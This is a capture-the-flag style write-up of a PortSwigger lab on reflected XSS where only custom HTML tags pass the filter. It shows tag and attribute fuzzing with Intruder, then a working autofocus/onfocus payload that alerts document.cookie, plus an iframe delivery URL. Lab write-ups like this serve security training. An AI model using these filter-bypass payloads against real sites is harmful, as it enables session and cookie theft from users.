 
# Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/contexts

---------------------------------------------

The content of the search is reflected inside a h1 HTML element:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/1.png)


I will send the following payload to Intruder:

```
<tag attrib=alert(1)>text</tag>
```

First test the attributes:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/2.png)

It seems all attributes are valid:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/3.png)


Then the tags:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/4.png)


These are valid:
• animatetransform
• animatemotion
• custom tags
• animate
• iframe2
• audio2
• image2
• image3
• input2
• input3
• input4
• video2
• img2
• set
• a2



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/5.png)


For example we can pop an alert with:

```
<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>
```

```
https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E
```

```
<iframe src="https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E" width="100%" height="100%" title="Iframe Example"></iframe>
```

